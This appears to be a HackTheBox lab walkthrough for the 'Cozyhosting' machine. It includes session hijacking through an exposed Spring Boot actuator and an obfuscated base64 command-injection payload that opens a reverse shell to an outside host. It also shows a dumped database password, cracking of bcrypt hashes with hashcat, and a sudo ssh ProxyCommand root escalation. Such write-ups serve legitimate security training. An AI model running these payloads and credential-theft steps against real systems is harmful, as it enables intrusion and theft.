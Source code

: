 ```yaml
---
layout: post
title:  "Cozyhosting - HTB Walkthrough"
date:   2024-03-02 21:39:54 +0530
---
```


## Introduction 

An Easy level HackTheBox platform lab machine running Linux containing an open actuator on Spring Boot, Command Injection, application reversal and simple privilege escalation.


## Service Overview

The machine is assigned IP address 10.10.11.230, let's scan the ports with Nmap:


```bash
$ nmap -sV -sS -Pn -p1-65535 -oN 10.10.11.230 10.10.11.230
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-03 01:46 EDT
Nmap scan report for 10.10.11.230
Host is up (0.064s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


After going to http://10.10.11.230 we get the address cozyhosting.htb, which we will write in /etc/hosts.


```bash
$ echo "10.10.11.230 cozyhosting.htb" | sudo tee -a /etc/hosts
```


## Web Service


Let's use dirsearch to find interesting files.


```bash
$ python3 dirsearch.py -u http://cozyhosting.htb
Sessions found the user kanderson: <http://cozyhosting.htb/actuator/sessions>.

36FC9F46B782A399A71908E661CF5481	"kanderson"
078E0AFFF6038D86B0E4B9503735EE36	"kanderson"

	
EEB6EBC6B06219C8009764BB6ACCF8DD	"UNAUTHORIZED"
6155F2929B8D4814171410BE580B8215	"kanderson"
```


In web-browser click: Inspect -> Storage -> Cookies - Replace to:


```bash
;echo${IFS}"c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMTgvNDQ0NCAwPiYxCg=="|base64${IFS}-d|bash;
```


## Reverse shell:


```bash
$ echo "sh -i >& /dev/tcp/10.10.16.18/4444 0>&1" | base64
c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMTgvNDQ0NCAwPiYxCg==
```


Let's start nc and send the request:

```bash
$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.16.18] from (UNKNOWN) [10.10.11.230] 36184
sh: 0: can't access tty; job control turned off
$ ls /home
$ josh
$ ls
$ cloudhosting-0.0.1.jar
$ id
uid=1001(app) gid=1001(app) groups=1001(app)
$ python3 -m http.server 8083
10.10.16.18 - - [08/Sep/2023 10:29:06] "GET / HTTP/1.1" 200 -
10.10.16.18 - - [08/Sep/2023 10:29:07] code 404, message File not found
10.10.16.18 - - [08/Sep/2023 10:29:07] "GET /favicon.ico HTTP/1.1" 404 -
10.10.16.18 - - [08/Sep/2023 10:29:51] "GET /cloudhosting-0.0.1.jar HTTP/1.1" 200 -
```


## Exploring the application

Let's download the application cloudhosting-0.0.1.jar and open it in jd.

```bash
$ wget http://cozyhosting.htb:8083/cloudhosting-0.0.1.jar
```
In application.properties find the password for postgres, and in scheduled/FakeUser.class find the creds for user kanderson:

```bash
$ jar xf cloudhosting-0.0.1.jar
$ cd BOOT-INF/classes
$ cat application.properties
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

Let's look at the database:

```bash
psql "postgresql://$DB_USER:$DB_PWD@$DB_SERVER/$DB_NAME"
psql -U postgres -W -h localhost -d cozyhosting
psql "postgresql://postgres:nvzAQ7XxR@localhost:5432/cozyhosting"
psql -U postgres -W -h localhost -d cozyhosting
Password: Vg&nvzAQ7XxR

\list
                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges
-------------+----------+----------+-------------+-------------+-----------------------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
(4 rows)

\c cozyhosting
Password: Vg&nvzAQ7XxR

You are now connected to database "cozyhosting" as user "postgres".
\d
              List of relations
 Schema |     Name     |   Type   |  Owner
--------+--------------+----------+----------
 public | hosts        | table    | postgres
 public | hosts_id_seq | sequence | postgres
 public | users        | table    | postgres
(3 rows)

SELECT * FROM users;
   name    |                           password                           | role
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)
```


#### Hash Identification (bcrypt):

```bash
$ hashcat --help | grep 3200
   3200 | bcrypt $2*$, Blowfish (Unix)      
```


Let's put the hash in the hash.txt file and run hashcat:

```bash
$ hashcat -m 3200 -a 0 hash.txt rockyou.txt
hashcat (v6.1.1) starting...
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited
```


Let's see what user is still on the system:

```bash
$ ls -la /home
Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040750/rwxr-x---  4096  dir   2023-08-08 06:19:05 -0400  josh
Let's try to connect to ssh using:

ssh josh@10.10.11.230
manchesterunited

josh@cozyhosting:~$ cat user.txt
ab5232bdddfdec1731346c7bd7e4e8cc
```


## Privilege escalation

Let's see what the josh user can execute from under sudo: Let's use the gtfobins method.

```bash
josh@cozyhosting:~$ sudo -l
[sudo] password for josh:
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *

sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x

# cd /root
# ls
root.txt
# cat root.txt
f9b3da1faf12ea84a31efc7297b25fc6
```